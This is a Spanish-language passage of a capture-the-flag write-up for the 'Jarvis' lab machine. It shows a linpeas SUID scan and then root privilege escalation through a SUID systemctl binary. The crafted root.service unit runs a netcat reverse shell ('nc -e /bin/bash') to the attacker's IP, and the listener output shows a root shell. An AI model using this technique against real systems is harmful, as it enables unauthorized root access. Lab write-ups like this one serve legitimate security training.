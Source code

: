 Nos pasamos el `linpeas` para enumerar el sistema:

```bash
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 31K Aug 21  2018 /bin/fusermount (Unknown SUID binary)
-rwsr-xr-x 1 root root 44K Mar  7  2018 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 60K Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 171K Feb 17  2019 /bin/systemctl
```

Nos reporta que podemos ejecutar como SUID el binario /bin/systemctl , vamos a buscar como aprovecharnos de esto: [Link](https://www.notion.so/78786df7899a840ec43c5ddecb6a4740)

1º Creamos el archivo root.service

```bash
❯ cat root.service
[Unit]
Description=roooooooooot

[Service]
Type=oneshot
User=root
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.16.198 443'

[Install]
WantedBy=multi-user.target
```

2º Nos creamos una nueva carpeta en la raiz de pepper

```bash
pepper@jarvis:~/privesc$ pwd
/home/pepper/privesc
pepper@jarvis:~/privesc$ ls 
root.service
```

3º Ejecutamos los siguientes comandos

```bash
pepper@jarvis:~/privesc$ systemctl link /home/pepper/privesc/root.service 
pepper@jarvis:~/privesc$ systemctl enable --now /home/pepper/privesc/root.service
pepper@jarvis:~/privesc$ systemctl start root
pepper@jarvis:~/privesc$ 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.143] 54418
whoami
root
cat /root/root.txt
d41d8cd98f00b204e9800998------
```


